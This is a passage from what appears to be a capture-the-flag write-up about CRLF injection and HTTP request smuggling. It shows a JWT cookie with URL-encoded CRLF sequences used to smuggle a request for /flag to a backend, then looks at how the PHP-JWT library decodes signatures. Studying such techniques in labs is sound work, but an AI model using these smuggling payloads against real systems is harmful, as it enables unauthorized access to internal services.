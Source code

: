 As you can see, our CRLF injection caused HTTP status code "400 Bad Request". This is because our smuggled HTTP request is not invalid according to the [HTTP specification](https://datatracker.ietf.org/doc/html/rfc2616#autoid-37).

Now, what if we try to make it as a valid HTTP request?

```http
GET /note.php?id=<note_id_here> HTTP/1.1
Host: localhost:4891
Cookie: auth=eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InNpdW5hbSIsImlhdCI6MTczNTYzMzE1NCwiZXhwIjoxNzM1NjM2NzU0fQ.Dfa8LvzQclcK3C-bUOPt5UdGwYBP5TlXWB5B4tYqv0kTtbj6fPIt3uuQ_dpIklTSmEY7TNly2i-8U9fyUoJnDKS84Qv7Ps5e3Be9pjwwqxKbS5F6V-P9Ja39xDODmYP45gapHQ6v7nlt6krArvhSZLoXPHOICoJBfrJTGbTeii9G2OUIJrGDxZn4UhmUlMrdvA198ZxMROX9--SnoQIZz7DL7Hyapx2a95mWDvLqlYIkOG67_9MKCKOrshMS_ioXYbRRjb-gSyydje76x44yGabHZQTPtGUr_MW79tSJ-dWswMZ6Vatjj6UOZjpNsBQ4gWL7a9PL8tCwvi15t5ua_Q%0d%0a%0d%0aGET /flag HTTP/1.1%0d%0a


```

Smuggled request:

```http
GET /flag HTTP/1.1
Host: backend


```

Response:

```http
HTTP/1.1 302 Found
[...]
Location: /login.php
Content-Length: 0
```

Wait, it didn't get smuggled to the `backend` service?

Oh wait, **this JWT is now invalid**...

With that said, we need to somehow **smuggle an HTTP request to the `backend` service in the JWT's signature**.

If we take a closer look at [the `decode` method in library PHP-JWT](https://github.com/firebase/php-jwt/blob/main/src/JWT.php#L96-L161), the signature is decoded via [static method `urlsafeB64Decode`](https://github.com/firebase/php-jwt/blob/main/src/JWT.php#L411-L414):

```php
public static function decode(
        string $jwt,
        $keyOrKeyArray,
        ?stdClass &$headers = null
    ): stdClass {
    $tks = \explode('.', $jwt);
    [...]
    list($headb64, $bodyb64, $cryptob64) = $tks;
    [...]
    $sig = static::urlsafeB64Decode($cryptob64);
    [...]
```

